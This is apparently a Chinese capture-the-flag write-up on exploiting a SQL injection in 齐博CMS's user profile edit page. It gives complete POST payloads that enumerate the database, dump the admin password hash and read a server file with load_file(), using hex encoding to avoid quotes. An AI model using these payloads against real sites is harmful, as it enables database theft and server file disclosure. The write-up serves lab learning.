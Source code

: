 # 再见CMS--齐博CMS

[2018-09-21]()

刚刚在i春秋上做了一道CMS的题，学到的东西挺多的，这里记录一下

> 题目名称：再见CMS  
> 题目内容：这里还是有一个小脑洞  
>   
> 访问链接之后看到的是一个网站，输入`url/admin`直接就进入了后台（不过这道题没什么用）

```
渗透CMS网站的三个步骤：
        1. 第一步,肯定是要判断出cms类型
        2. 第二步,查询该cms曾经出现的漏洞
        3. 第三步,然后利用这些漏洞拿到flag.
```

### [](#0x01-第一步，判断CMS类型： "0x01 第一步，判断CMS类型：")0x01 第一步，判断CMS类型：

恕我太菜，看了半天也没判断出来是哪种类型，人家说拿最下边的备案号到工信部一查就有网站的信息了，可是我查了一下返回没有匹配到类型，然后看了一下别人的writeup，说是齐博CMS

知道了CMS类型就要进行第二步了

### [](#0x02-第二步，搜索齐博CMS的漏洞 "0x02 第二步，搜索齐博CMS的漏洞")0x02 第二步，搜索齐博CMS的漏洞

百度上一找还是有漏洞的，最典型的就是SQL注入了，接下来我们来看看如何进行注入  
先注册一个用户，然后登录上去  
根据搜索出来的文章，漏洞在`/member/userinfo.php?job=edit&step=2`这个页面，这里存放的是个人信息，我们的注入就是通过构造语句把需要的信息显示在这些个人信息后边：  
![](1.png)

```
根据网上提供的漏洞利用方法，构造这样一个注入语句：
http://ac8bc12353794ed29c196e52eed992b7627b70cb34e54358.game.ichunqiu.com/member/userinfo.php?job=edit&step=2
post数据：
old_password=123456truename=xxxx%0000&Limitword[000]=&email=123456@qq.com&provinceid=,address=(select version()) where uid=3 %23 
```

这个URL其实是对个人信息修改的URL，我们访问这个URL就可以修改个人信息  
而下边POST的数据就是要修改的东西  
old\_password是旧密码，后边uid是我们访问个人信息页面时URL里给的，重点在address里面，`address=`，这个后边的值本来应该填写你要修改的新地址的，我们把注入语句放到这里就可以把注入查询到的东西显示在页面的`联系地址`后边  
![](2.png)  
填好之后访问一下会返回`修改成功，页面正在跳转`  
![](4.png)

然后我们查看一下个人信息，主要看`联系地址`一栏  
![](5.png)

我们可以看到注入成功了，返回了我们需要的东西，那么就开始注入吧。

```
查询数据库：
URL:http://ac8bc12353794ed29c196e52eed992b7627b70cb34e54358.game.ichunqiu.com/member/userinfo.php?job=edit&step=2
POST:old_password=123456&truename=xxxx%0000&Limitword[000]=&email=test@qq.com&provinceid=,address=(select database()) where uid=3 %23 

返回数据库：blog
```

![](6.png)

```
查询表:
URL:http://ac8bc12353794ed29c196e52eed992b7627b70cb34e54358.game.ichunqiu.com/member/userinfo.php?job=edit&step=2
POST:old_password=123456&truename=xxxx%0000&Limitword[000]=&email=test@qq.com&provinceid=,address=(select group_concat(table_name) from information_schema.tables where table_schema=database()) where uid=3 %23 

查到了很多的表，但是我觉得就第一个有用：admin
```

![](7.png)  
查询列：  
URL:<http://ac8bc12353794ed29c196e52eed992b7627b70cb34e54358.game.ichunqiu.com/member/userinfo.php?job=edit&step=2>  
POST:old\_password=123456\&truename=xxxx\%0000\&Limitword\[000\]<=&email=test@qq.com>\&provinceid=,address=\(select group\_concat\(column\_name\) from information\_schema.columns where table\_name=0x61646d696e\) where uid=3 \%23

```
hint:这里由于‘table_name=’的值需要带引号的，但是带了引号语句就报错了，所以利用十六进制来绕过，可以不用带引号

返回列：id,username,password,Email
```

![](8.png)

```
查询字段：
URL:http://ac8bc12353794ed29c196e52eed992b7627b70cb34e54358.game.ichunqiu.com/member/userinfo.php?job=edit&step=2
POST:old_password=123456&truename=xxxx%0000&Limitword[000]=&email=test@qq.com&provinceid=,address=(select group_concat(username,password) from admin) where uid=3 %23 

返回username:admin   password:2638127c92b79ee7901195382dc08068
```

![](9.png)

去了各种md5解码网站都查不出来，无奈可能是思路错了

然后访问了一下`url/flag.php`,输出了flag is here 那么我们的任务就是查看这个文件了

如何利用SQL注入查看文件呢？

<https://www.cnblogs.com/blacksunny/p/8060028.html>

知道了这个方法我们就来构造payload：

```
URL:http://ac8bc12353794ed29c196e52eed992b7627b70cb34e54358.game.ichunqiu.com/member/userinfo.php?job=edit&step=2
    POST:old_password=123456&truename=xxxx%0000&Limitword[000]=&email=test@qq.com&provinceid=,address=(select load_file(0x2f7661722f7777772f68746d6c2f666c61672e706870)) where uid=3 %23
```

括号里的十六进制是要查看的文件的路径`/var/www/html/flag.php`，我们可以在主页的最上边看到网站的绝对路径

访问之后再查看个人信息的联系地址一栏发现是空的，没关系 查看页面源代码  
![](10.png)

这样就得到了flag